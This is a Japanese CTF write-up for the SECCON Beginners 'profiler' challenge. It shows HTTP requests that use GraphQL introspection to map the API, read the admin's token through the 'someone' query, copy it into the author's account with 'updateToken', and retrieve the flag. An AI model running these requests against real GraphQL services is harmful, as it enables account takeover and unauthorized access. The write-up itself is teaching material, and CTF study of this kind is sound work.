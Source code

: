 # profiler
```
Let's edit your profile with profiler!
Hint: You don't need to deobfuscate *.js
Notice: Server is periodically initialized.
```

<br>

## Solution

![1](https://user-images.githubusercontent.com/47602064/83003339-227e9800-a049-11ea-9501-46564af5aa98.png)

問題のurlに移動するとアカウントの登録とログインのページに移動しました。

今回はソースコードは公開されていません。

試しに適当にアカウントを作成してみます。

![1](https://user-images.githubusercontent.com/47602064/83255145-dd926700-a1ea-11ea-8169-fb1962bac20d.png)

すると以上のように表示がされて自分のtokenが与えられました。

`Your token is 9646a00a78713456c4ce7eb55acd41104ba7e26742b3d2345108268e26e56c64.`

<br>

アカウントが作成できたようなのでこれでログインしてみます。

すると以下のようにログインできました。

![2](https://user-images.githubusercontent.com/47602064/83255345-35c96900-a1eb-11ea-8b91-cb8096d8efc6.png)

下の方にある`Get FLAG`のボタンを試しに押してみると以下のようにコメントされて`admin`の権限での操作が必要そうです。

`Sorry, your token is not administrator's one. This page is only for administrator(uid: admin).`

<br>

次にプロフィールを変更してみます。

適当にprofileを入力して先程のtokenを使ってみます。

![3](https://user-images.githubusercontent.com/47602064/83255449-6a3d2500-a1eb-11ea-9822-7c7b1df90391.png)

するとupdateが出来たそうです。

このupdateのrequestとresponseは以下の内容になっていました。

```http
POST /api HTTP/1.1
Host: profiler.quals.beginners.seccon.jp

{"query":"mutation {\n    updateProfile(profile: \"test3\", token: \"9646a00a78713456c4ce7eb55acd41104ba7e26742b3d2345108268e26e56c64\")\n  }"}
```

```http
HTTP/1.1 200 OK

{"data":{"updateProfile":true}}
```

`profile`の`update`は`/api`に`POST`されていることがわかります。

ネットで`aip query mutation`と調べると`GraphQL API`というのが出てきました。

さらにそこから色々調べてみるとそれでやりとりをしていることがわかりました。

<br>

次にどういった定義がされているのかが知れる方法をネットで調べてみると`Introspection`というのが見つかりました。

これはスキーマ定義を取得してくれるそうです。

他にも色々調べながら試してみたら、以下のように送信してみると上手く返ってきました。

```http
POST /api HTTP/1.1
Host: profiler.quals.beginners.seccon.jp

{"query":"query {__schema {types {name fields {name}}}}"}
```

このrequestはGraphQL API エンドポイントに対し、利用可能な API は何か？を問い合わせるのに利用できるそうです。

　　　参照：https://graphql.org/learn/introspection/

```http
HTTP/1.1 200 OK

{"data":{"__schema":{"types":[{"fields":[{"name":"me"},{"name":"someone"},{"name":"flag"}],"name":"Query"},{"fields":[{"name":"uid"},{"name":"name"},{"name":"profile"},{"name":"token"}],"name":"User"},{"fields":null,"name":"ID"},{"fields":null,"name":"String"},{"fields":[{"name":"updateProfile"},{"name":"updateToken"}],"name":"Mutation"},{"fields":null,"name":"Boolean"},{"fields":[{"name":"types"},{"name":"queryType"},{"name":"mutationType"},{"name":"subscriptionType"},{"name":"directives"}],"name":"__Schema"},{"fields":[{"name":"kind"},{"name":"name"},{"name":"description"},{"name":"fields"},{"name":"interfaces"},{"name":"possibleTypes"},{"name":"enumValues"},{"name":"inputFields"},{"name":"ofType"}],"name":"__Type"},{"fields":null,"name":"__TypeKind"},{"fields":[{"name":"name"},{"name":"description"},{"name":"args"},{"name":"type"},{"name":"isDeprecated"},{"name":"deprecationReason"}],"name":"__Field"},{"fields":[{"name":"name"},{"name":"description"},{"name":"type"},{"name":"defaultValue"}],"name":"__InputValue"},{"fields":[{"name":"name"},{"name":"description"},{"name":"isDeprecated"},{"name":"deprecationReason"}],"name":"__EnumValue"},{"fields":[{"name":"name"},{"name":"description"},{"name":"locations"},{"name":"args"}],"name":"__Directive"},{"fields":null,"name":"__DirectiveLocation"}]}}}
```

見てみると`schema`と`types`などを得ることが出来ました。

その中に`flag`というクエリがあるので最終的にこれが使えそうと思われます。

どのクエリがどういった機能があるか知らないのでユーザ系の情報を取得してくれるのをネットで探しました。

すると`someone`はユーザの情報を取得してくれて、`updateToken`はユーザの`token`を更新してくれるそうです。

なのでこの2つを使ってみます。

ちなみに`Introspection`や`GraphQL Playground`というツールでもっと上手く得ることができるそうです。

<br>

まずは`admin`の`token`を取得するために`someone`を使って送ってみます。

```http
POST /api HTTP/1.1
Host: profiler.quals.beginners.seccon.jp

{"query":"query{someone(uid: \"admin\"){token}}"}
```

```http
HTTP/1.1 200 OK

{"data":{"someone":{"token":"743fb96c5d6b65df30c25cefdab6758d7e1291a80434e0cdbb157363e1216a5b"}}}
```

これで`admin`の`token`を得ることが出来ました。

<br>

次はこの`token`を自分の`token`に変更するように`updateToken`を使って送ってみます。

```http
POST /api HTTP/1.1
Host: profiler.quals.beginners.seccon.jp

{"query":"mutation {updateToken(token: \"743fb96c5d6b65df30c25cefdab6758d7e1291a80434e0cdbb157363e1216a5b\")}"}
```

```http
HTTP/1.1 200 OK

{"data":{"updateToken":true}}
```
これで自分の`token`に`admin`の`token`に変更が出来たと思います。

<br><br>

なので初めの方に出てきた`flag`のクエリを使って表示できるか、以下のように送ってみます。

すると上手くflagを表示させることが出来ました。

```http
POST /api HTTP/1.1
Host: profiler.quals.beginners.seccon.jp

{"query":"query {flag}"}
```

```http
HTTP/1.1 200 OK

{"data":{"flag":"ctf4b{plz_d0_n07_4cc3p7_1n7r05p3c710n_qu3ry}"}}
```

<br><br>

## FLAG: ctf4b{plz_d0_n07_4cc3p7_1n7r05p3c710n_qu3ry}
